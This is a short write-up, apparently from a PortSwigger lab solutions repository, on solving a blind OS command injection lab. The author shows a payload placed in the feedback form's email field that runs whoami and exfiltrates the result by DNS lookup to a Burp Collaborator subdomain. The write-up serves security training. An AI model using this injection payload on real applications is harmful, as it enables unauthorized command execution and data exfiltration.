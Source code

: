 This lab contains a blind OS command injection vulnerability in the feedback function.

The application executes a shell command containing the user-supplied details. The command is executed asynchronously and has no effect on the application's response. It is not possible to redirect output into a location that you can access. However, you can trigger out-of-band interactions with an external domain.

To solve the lab, execute the whoami command and exfiltrate the output via a DNS query to Burp Collaborator. You will need to enter the name of the current user to complete the lab

### Solution

captured the feedback POST request and modified the email with the payload `||nslookup+``whoami``.BURP-COLLABORATOR-SUBDOMAIN||`

then inserted the burp collaborator payload for the subdomain

![image](https://github.com/RahulMMenon011/PortSwigger_Labs/assets/140642506/cfc79693-a7b3-4e25-83e4-08f07bfe4312)

At the collaborator tab, the current user name was identified succesfully

![image](https://github.com/RahulMMenon011/PortSwigger_Labs/assets/140642506/0ac5a211-1b99-498c-b44f-6083c15ced6d)

Submitted the soultion and completed the lab succesfully

![image](https://github.com/RahulMMenon011/PortSwigger_Labs/assets/140642506/6e15be3f-a669-42a6-bf52-96fc37cd5507)
